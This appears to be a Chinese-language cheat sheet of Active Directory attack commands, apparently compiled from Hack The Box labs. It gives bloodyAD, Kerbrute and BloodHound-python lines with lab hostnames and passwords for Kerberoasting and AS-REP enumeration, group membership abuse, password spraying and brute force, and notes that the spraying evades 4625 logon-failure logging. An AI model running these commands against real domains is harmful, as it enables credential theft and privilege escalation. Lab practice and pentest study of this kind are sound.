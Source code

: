 ```bash
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac 'ADAM.SILVER' -f ACCOUNTDISABLE

# 枚举spn账户，可用于Kerberoasting攻击
bloodyAD -d fluffy.htb --host 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' get search --filter '(&(samAccountType=805306368)(servicePrincipalName=*))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2

# 枚举未启用Kerberos预身份验证的账户，可用于AS_REP Roasting攻击
bloodyAD -d fluffy.htb --host 10.10.11.69 -u 'j.fleischman' -p 'J0elTHEM4n1990!' get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName

# 将用户添加到组
bloodyAD --host 10.129.116.183 -d tombwatcher.htb -u alfred -p basketball add groupMember "Infrastructure" alfred

# 查看可写的对象OU
bloodyAD --host 10.129.116.183 -d tombwatcher.htb -u john -p 'P@ssw0rd456!' get writable --otype ou
```

#### Kerbrute

使用Kerberos暴力破解Windows密码比任何其他方法都要快得多，并且可能更加隐蔽，因为预认证失败不会触发“传统”的4625登录失败事件。使用Kerberos，您可以通过仅向KDC(域控制器)发送一个UDP帧来验证用户名或测试登录。

```
# 密码喷洒
./kerbrute_linux_amd64 passwordspray -v -d fluffy.htb --dc dc01.fluffy.htb domain_users.txt 'J0elTHEM4n1990!'

# 暴力破解域用户，注意域密码策略
./kerbrute_linux_amd64 bruteuser -v -d fluffy.htb --dc dc01.fluffy.htb passwords.lst p.agila

# General bruteforce (from username:password wordlist or from stdin)
./kerbrute bruteforce -v -d ropnop.com --dc lab.ropnop.com userpass.txt
```

#### Bloodhound-python

```
# 使用bloodhound-python收集域内信息，输出一个zip，用于bloodhound-ce分析域内权限缺陷
bloodhound-python -d tombwatcher.htb -u 'alfred' -p 'basketball' -v --zip -c All -dc dc01.tombwatcher.htb --dns-tcp -ns 10.129.192.165

# 时间同步，有时候会同时使用udp和tcp端口，Kerberos验证需要与域控做时间同步
第一种方法：
sudo ntpdate dc01.fluffy.htb
第二种方法：
sudo timedatectl set-ntp off
sudo rdate -n dc01.tombwatcher.htb

# 使用Kerberos ticket票据认证代替密码认证，命令工具通常需要使用-k选项
export KRB5CCNAME=$path_to_ticket.ccache
关于票据传递参考如下链接:
https://www.thehacker.recipes/ad/movement/kerberos/ptt

# dns超时30秒
bloodhound-python -d resourced.local -u v.ventz -p 'HotelCalifornia194!' -ns 192.168.210.175 -c all --dns-timeout 30
```
